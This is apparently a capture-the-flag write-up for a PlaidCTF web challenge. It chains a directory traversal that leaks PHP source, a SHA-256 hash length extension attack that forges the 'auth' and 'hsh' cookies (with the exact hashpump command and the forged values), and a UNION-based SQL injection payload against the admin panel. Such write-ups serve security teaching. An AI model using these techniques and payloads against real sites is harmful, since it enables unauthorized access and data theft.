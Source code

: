 ## Step 1 - Directory Traversal

This is what the site looks like:

{<24>}![Home Page](http://i.imgur.com/sZVdEiP.png)

The admin page doesn't have a login option, it just says "Sorry, not authorized."

{<23>}![Admin page](http://i.imgur.com/UDhGLnJ.png)

The page also set two cookies. One named *hsh*, and one named *auth*. *auth* is a URL encoded serialized PHP boolean `b:0;`. Setting *auth* to `b:1;` does nothing. (in fact it just gets reset)

**auth:** `b%3A0%3B`

*hsh* is a hash with a length of 64 characters. sha-256 is widely used and fits that description, so it's a safe bet. This cookie is probably protecting *auth*.

**hsh:** `ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3`

Visiting other pages on the site exposes a directory traversal vulnerability.

{<18>}![Traversal Vuln](http://i.imgur.com/R9jiqHe.png)

Substituting *index* for *admin.php* exposes the full admin.php source code.

{<17>}![admin.php traversed](http://i.imgur.com/ERvPwIY.png)

The unrendered source looks like this:

	<?php
		require_once("secrets.php");
		$auth = false;
		if (isset($_COOKIE["auth"])) {
			$auth = unserialize($_COOKIE["auth"]);
			$hsh = $_COOKIE["hsh"];
			if ($hsh !== hash("sha256", $SECRET . strrev($_COOKIE["auth"]))) {
				$auth = false;
			}
		}
    	else {
			$auth = false;
			$s = serialize($auth);
			setcookie("auth", $s);
			setcookie("hsh", hash("sha256", $SECRET . strrev($s)));
		}
		if ($auth) {
			if (isset($_GET['query'])) {
        		$link = mysql_connect('localhost', $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
        		mysql_select_db($SQL_DATABASE) or die('Could not select database');
        		$qstr = mysql_real_escape_string($_GET['query']);
        		$query = "SELECT amount FROM plaidcoin_wallets WHERE id=$qstr";
        		$result = mysql_query($query) or die('Query failed: ' . mysql_error());
        		$line = mysql_fetch_array($result, MYSQL_ASSOC);
        		foreach ($line as $col_value) {
          			echo "Wallet " . $_GET['query'] . " contains " . $col_value . " coins.";
        		}
			} else {
         		echo "<html><head><title>MtPOX Admin Page</title></head>			<body>Welcome to the admin panel!<br /><br /><form name='input' action='admin.php' method='get'>Wallet ID: <input type='text' name='query'><input type='submit' value='Submit Query'></form></body></html>";
			}
    	}
    	else echo "Sorry, not authorized.";
	?>

Taking a closer look at the source code confirms some previous suspicions and reveals how the *auth* cookie is created and checked. Retrieving the contents of *secrets.php* should be enough to forge new cookies!

{<16>}![forbidden sauce](http://i.imgur.com/wmLNBDA.png)

What the hell! The source code of *secrets.php* isn't visible. The source of index.php reveals that The Plague had actually taken *some* precautionary measures to keep his secrets hidden. 

	if (strstr($_GET['page'], "secrets")) { echo "ERROR!\n"; }

Time to get creative.

## Step 2 - Hash Length Extension

There are several factors that have come into play here that make HLE possible.

1. SHA-256 is vulnerable to hash length extension attacks.

2. PHP unserialization will accept a valid input and ignore any data after the `;`. This means the *auth* cookie will always work as long as it starts with `b:0;`.

3. The string at the end of the hashed text is reversed. This means any backwards data added to *hsh* will be at the beginning of the *auth* cookie.

4. The length of the key is known, or enough time is available to bruteforce it. (A little recon on the *about* page reveals the length to be 8)

Recommended reading:

* https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks 
* http://en.wikipedia.org/wiki/Length\_extension\_attack

[hashpump](https://github.com/bwall/HashPump) can do the heavy lifting for us. 

	$ ./hashpump -s "ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3" -d ";0:b" -a ";1:b" -k 8
    
    967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1
    /content/images/2014/Apr/1_home.png
	;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b

The hash that hashpump outputs is the new *hsh*, and the second string is the new, reversed, hex-encoded *auth* string, which needs to be turned the right way around and URL-encoded.

This is what the *auth* cookie looks like the right way around, and properly encoded.
	b%3A1%3B`%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3A0%3B
    
Plug these in for the cookie values and suddenly *admin.php* looks like this:

{<10>}![Admin Panel](http://i.imgur.com/DZhJJmz.png)

The only working ID is 0. All others return a blank page.

{<27>}![1333337 coins](http://i.imgur.com/2QJzuD0.png)

## Step 3 - SQL Injection

At this point it makes sense to go back and look at *admin.php* some more. mysql_real_escape_strings() won't help you here, Mr. The Plague. In fact, just submitting the form without putting anything in the text box returns a SQL error.

	Query failed: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
    
The input box expects a numerical ID, but what goes after the ID is up to the creative problem solver.

From this point on, finding the key just takes some probing. The final query is quite simple:

	1 UNION SELECT id FROM plaidcoin_wallets
    
{<29>}![Win.](http://i.imgur.com/Im7rPxl.png)

